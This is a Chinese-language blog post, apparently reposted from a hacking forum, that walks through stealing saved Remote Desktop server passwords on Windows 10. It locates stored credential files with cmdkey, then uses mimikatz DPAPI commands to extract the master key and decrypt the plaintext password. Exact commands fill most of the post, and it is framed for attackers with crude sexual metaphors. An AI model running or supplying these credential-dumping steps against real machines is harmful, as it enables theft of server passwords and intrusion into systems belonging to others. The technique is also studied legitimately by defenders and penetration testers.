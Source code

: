```yaml
---
layout: post
title: 破解远程终端凭据，获取服务器密码
subtitle: 2017/10/20
date: 2017-10-20
author: FR
header-img:
catalog: true
tags:
    - windows
    - crack
    - password
---
```

- **原文转自T00ls.net [【原文链接】](https://www.t00ls.net/articles-41926.html)**

测试环境：windows 10

道友们应该碰到过管理在本地保存远程终端的凭据，凭据里躺着诱人的胴体(服务器密码)，早已让我们的大棒饥渴难耐了。
但是，胴体却裹了一身道袍(加密)，待老衲操起法器将其宽衣解带。

![img/2017-10-20/pjyczdpjhqfwqmm_01.png](https://www.t00ls.net/attachments/month_1710/1710010133df4eed0bc854ab65.png)

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![img/2017-10-20/pjyczdpjhqfwqmm_02.png](https://www.t00ls.net/attachments/month_1710/1710010133cc76caaa81644803.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![img/2017-10-20/pjyczdpjhqfwqmm_03.png](https://www.t00ls.net/attachments/month_1710/1710010133de85b4d2e02de9b4.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![img/2017-10-20/pjyczdpjhqfwqmm_04.png](https://www.t00ls.net/attachments/month_1710/1710010133f73326447a780849.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![img/2017-10-20/pjyczdpjhqfwqmm_05.png](https://www.t00ls.net/attachments/month_1710/17100101335e46e0e11d5639b9.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![img/2017-10-20/pjyczdpjhqfwqmm_06.png](https://www.t00ls.net/attachments/month_1710/1710010133a0bde34b6ad38f6f.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
